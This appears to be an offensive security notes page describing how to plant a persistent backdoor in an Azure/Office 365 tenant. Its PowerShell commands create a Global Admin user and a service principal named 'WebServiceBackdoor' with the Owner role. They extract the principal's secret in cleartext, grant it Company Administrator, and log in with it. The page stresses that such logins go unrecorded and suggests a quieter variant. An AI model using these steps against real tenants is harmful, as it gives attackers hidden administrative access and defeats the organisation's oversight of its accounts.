# Service Principal Backdoor

## Service Principal Backdoor

Almost 200 SPN enabled by default on O365.

Service Principal are just account like any other accounts : can login using login/password.

**-** To create a Service Principal, a Global Admin(ie company admin account) must be used.

\- Service Principal login attempt are not logged on the interface:  just perfect for a backdoored account !

#### Global Admin account

* Create a new user and add a Global Admin role on it :





* Then on the subscription IAM menu , add this account as the subscription owner



### Create a Service Principal

* Import the modules

```csharp
PS C:\Users\b3v1l\Desktop>Import-Module az PS C:\Users\b3v1l\Desktop> Import-Module MSOnline
```

* Login with the Global Admin account

```csharp
$cred = Get-Credential
```



Then connect using the following commands

```csharp
Connect-AzAccount -Credential $cred 
Connect-MsolService -Credential $cred
```



* Get the subscription ID&#x20;

```csharp
Get-AzSubscription
```

* In case of multi subscription in the same tenant, we can set the subscription ID using the following command :

```csharp
Set-AzContext -SubscriptionId REDACTED
```



* Create a new SPN
  * **Display** name will be listed on the **webconsole**.
  * ApplicationID = **username**

```csharp
$spn = New-AzAdServicePrincipal -DisplayName "WebServiceBackdoor" -Role Owner
```



* Get a unsecure SPN password (cleartext)

```csharp
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```



#### Set up an Admin Role on the SPN

```csharp
$sp = Get-MsolServicePrincipal -AppPrincipalId REDACTED
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```



* List Global Admin accounts

```csharp
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```



### Login with the SPN account

```csharp
Import-Module Az $cred = Get-Credential
```



```csharp
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```



#### Note:

This can be noisy ...

A better way will be to add the SPN to the "User Account Administrator" group. This will allow the SPN to create new accounts to authenticate.
